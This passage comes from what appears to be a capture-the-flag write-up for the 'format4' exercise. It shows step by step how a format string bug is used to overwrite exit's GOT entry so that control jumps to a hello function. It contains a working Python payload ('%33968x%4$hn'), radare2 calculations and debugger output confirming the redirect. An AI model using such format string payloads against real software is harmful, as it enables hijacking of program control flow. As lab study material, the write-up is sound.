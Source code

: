 As shown above, this time only the first 2 bytes from the original address `0x080483f2` were modified, resulting in `0x08040004` (`83f2` was replaced with `0004`). The address `0x08049724` will be filled with the LSB (least significant bytes) of the address of the `hello` function and the  address `0x08049726` will be filled with the MSB (most significant bytes), and it should look as follow:

```
exit = 0x8049724 
hello = 0x080484b4

0x08049724 -> 84b4
                      = 0x080484b4 
0x08049726 -> 0804
```

Since the MSB of `hello` (`0x080484b4`) is the same as the MSB currently stored in `exit`'s GOT entry (`0x080483f2`), it does not need to be overwritten. Hence, the LSB are the only ones that need to be modified. Using the python exploit from above it was possible to modify the LSB to 0x0004. The next step is to calculate the number to be written into the LSB to make it equal to the LSB of `hello` (`0x84b4`), this can be achieved making a subtraction of `0x84b4 - 0x4` (the LSB intended value minus the characters already written by the `printf`):

```sh
[0x08048508]> ? 0x84b4 - 0x4
int32   33968
uint32  33968
hex     0x84b0
```

Therefore, the number `33968 dec` needs to be written into the address `0x080484b4`:

```python=
import struct

exit_fnc = 0x8049724

payload = struct.pack("I",exit_fnc)
payload += "%33968x%4$hn"  #0x84b4 - 0x4 = 0x84b0 = 33968 dec

print(payload)
```

```sh 
$./format4_string.py > /tmp/format4
$ r2 -R stdin=/tmp/format4 -d format4
...
[0xf7fd6c70]> aaa
...
[0xf7fd6c70]> dcu main
Continue until 0x08048514 using 1 bpsize
hit breakpoint at: 8048514
[0x08048514]> dc
$�
...
                                        200
code execution redirected! you win
[0xf7fd5059]> 
```
#### Obtaining a shell 
 